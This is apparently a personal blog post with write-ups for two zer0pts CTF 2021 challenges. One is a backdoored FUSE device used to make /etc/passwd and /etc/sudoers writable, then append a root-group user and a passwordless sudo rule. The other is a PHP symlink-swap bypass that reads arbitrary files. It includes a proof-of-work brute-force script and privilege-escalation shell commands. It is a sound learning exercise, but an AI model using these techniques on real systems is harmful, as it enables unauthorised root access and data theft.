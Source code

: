 ```yaml
---
layout: post
title:  "zer0pts CTF 2021 writeups"
date:   2021-02-22 19:59:36 +0200
categories: ctf
---
```


These are the writeups for the [zer0pts CTF 2021](https://2021.ctf.zer0pts.com/) challenges that I personally solved. Pretty hard challenges, but again learned a lot!

## infected

There are two parts to this challenge. First to get through the initial part and to get a shell we need to figure out what input produces the correct hash when we have part of the source and the hash. Let's write a Python program to get past it:
```python=
from pwn import *
import itertools
import hashlib
import string


r = remote ('others.ctf.zer0pts.com',11011)

chall = r.recvline().decode('utf-8')

hashval = chall.split("=")[1].strip()
suffix = chall.split("=")[0][12:32]


table = string.ascii_letters + string.digits + "._"

for v in itertools.product(table, repeat=4):
    if hashlib.sha256((''.join(v) + suffix).encode()).hexdigest() == hashval:
        prefix = ''.join(v)
        print("[+] Prefix = " + prefix)
        r.sendline(prefix)
        r.interactive()
        break
else:
    print("[-] Solution not found :thinking_face:")

```
Now we have a shell and neet to read the flag at `/root`.  Reverse the provided binary with Ghidra to reveal how the backdoor works:
```c=
void backdoor_write(undefined8 param_1,char *param_2,size_t param_3)

{
  int iVar1;
  __mode_t __mode;
  char *__s;
  char *__s1;
  char *__file;
  char *__nptr;
  long in_FS_OFFSET;
  stat64 local_a8;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __s = strndup(param_2,param_3);
  if (__s == (char *)0x0) {
    fuse_reply_err(param_1,0x16);
    goto LAB_00100c8c;
  }
  __s1 = strtok(__s,":");
  __file = strtok((char *)0x0,":");
  __nptr = strtok((char *)0x0,":");
  if (((__s1 == (char *)0x0) || (__file == (char *)0x0)) || (__nptr == (char *)0x0)) {
    fuse_reply_err(param_1,0x16);
  }
  else {
    iVar1 = strncmp(__s1,"b4ckd00r",8);
    if (iVar1 == 0) {
      stat64(__file,&local_a8);
      if ((local_a8.st_mode & 0xf000) == 0x8000) {
        __mode = atoi(__nptr);
        iVar1 = chmod(__file,__mode);
        if (iVar1 == 0) {
          fuse_reply_write(param_1,param_3,param_3);
          goto LAB_00100c7d;
        }
      }
      fuse_reply_err(param_1,0x16);
    }
    else {
      fuse_reply_err(param_1,0x16);
    }
  }
LAB_00100c7d:
  free(__s);
LAB_00100c8c:
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
It reads from stdin and calls `chmod(2)` so it can be used to modify file permissions. The device is `/dev/backdoor` and the syntax of the command is `b4ckd00r:filename:permissions`.

Modify some file permissions:
```
echo "b4ckd00r:/etc/sudoers:222" > /dev/backdoor
echo "b4ckd00r:/etc/passwd:222" > /dev/backdoor
echo "pwn:x:1000:0:pwn:/root:/bin/sh" >> /etc/passwd
echo "pwn  ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
echo "b4ckd00r:/etc/sudoers:444" > /dev/backdoor
```

and then `sudo su`to get a root shell and the flag.

## GuestFS::AFR
The source code is provided:
```php=
  function create($name, $type=0, $target="")
    {
        $this->validate_filename($name);

        if ($type === 0) {

            /* Create an empty file */
            $fp = @fopen($this->root.$name, "w");
            @fwrite($fp, '');
            @fclose($fp);

        } else {

            /* Target file must exist */
            $this->assert_file_exists($this->root.$target);

            /* Create a symbolic link */
            @symlink($target, $this->root.$name);

            /* This check ensures $target points to inside user-space */
            try {
                $this->validate_filepath(@readlink($this->root.$name));
            } catch(Exception $e) {
                /* Revert changes */
                @unlink($this->root.$name);
                throw $e;
            }

        }
    }

    * Security Functions */
    function validate_filepath($path)
    {
        if (strpos($path, "/") === 0) {
            throw new Exception('invalid filepath (absolute path)');
        } else if (strpos($path, "..") !== false) {
            throw new Exception('invalid filepath (outside user-space)');
        }
    }

    function validate_filename($name)
    {
        if (preg_match('/[^a-z0-9]/i', $name)) {
            throw new Exception('invalid filename');
        }
    }

    function assert_file_exists($name)
    {
        if (file_exists($name) === false
            && is_link($name) === false) {
            throw new Exception('file not found');
        }
    }

```
It reveals how to bypass the security checks using the following steps:

1. create regular file foo
2. create symlink bar to foo
3. delete regular file foo (it just unlinks)
4. create new symlink bar to LFI `/../../../../../etc/passwd`
5. read contens of foo

the flag location is `/../../../../../flag`

